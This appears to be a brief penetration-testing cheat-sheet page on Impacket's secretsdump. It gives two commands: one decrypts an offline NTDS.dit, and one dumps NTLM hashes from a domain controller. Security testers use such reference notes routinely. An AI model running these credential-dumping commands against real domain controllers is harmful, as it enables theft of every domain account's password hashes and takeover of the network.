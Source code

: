 ```yaml
---
title: "Secretsdump"
date: 2020-07-16T13:41:37+02:00
draft: false
---
```


#### Decrypt NTDS
```bash
secretsdump.py -system SYSTEM -security SECURITY -ntds ntds.dit local
```

#### Dumping DC hashes
```bash
secretsdump.py -just-dc-ntlm offense/administrator@10.0.0.6
```

